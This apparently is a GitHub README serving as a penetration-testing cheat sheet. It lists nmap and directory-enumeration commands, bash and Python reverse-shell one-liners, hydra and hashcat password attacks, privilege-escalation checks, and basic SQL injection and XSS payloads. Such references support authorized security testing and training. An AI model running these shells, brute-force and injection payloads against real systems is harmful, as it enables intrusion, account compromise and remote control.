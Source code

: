 # Security Tools & Scripts

Collection of tools and scripts developed or commonly used during penetration testing.

## Custom Scripts
*Coming soon - Will include automation scripts for common tasks*

## Tool References

### Reconnaissance
```bash
# Nmap common scans
nmap -sC -sV -oN initial_scan.txt [target]
nmap -p- -T4 -oN all_ports.txt [target]
nmap -sU --top-ports 100 -oN udp_scan.txt [target]

# Directory enumeration
gobuster dir -u http://[target] -w /usr/share/wordlists/dirb/common.txt
feroxbuster -u http://[target] -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

### Exploitation
```bash
# Reverse shells
bash -i >& /dev/tcp/[ip]/[port] 0>&1
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Shell stabilization
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z, then:
stty raw -echo; fg
```

### Password Attacks
```bash
# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show hash.txt

# Hashcat
hashcat -m [mode] hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt  # NTLM

# Hydra
hydra -l admin -P /usr/share/wordlists/rockyou.txt [target] http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect"
```

### Privilege Escalation
```bash
# Linux enumeration
sudo -l
find / -perm -u=s -type f 2>/dev/null  # SUID binaries
getcap -r / 2>/dev/null  # Capabilities
ss -tulpn  # Network connections

# Windows enumeration
whoami /priv
net user
systeminfo
```

### Web Application Testing
```bash
# SQL Injection basic tests
' OR '1'='1
admin' --
' UNION SELECT NULL,NULL,NULL--

# XSS basic payloads
<script>alert(1)</script>
<img src=x onerror=alert(1)>
```

## Useful Resources

- [GTFOBins](https://gtfobins.github.io/) - Unix binaries exploitation
- [LOLBAS](https://lolbas-project.github.io/) - Living Off The Land Binaries
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) - Payload collection
- [PentestMonkey](https://pentestmonkey.net/) - Reverse shell cheatsheet
- [HackTricks](https://book.hacktricks.xyz/) - Penetration testing methodology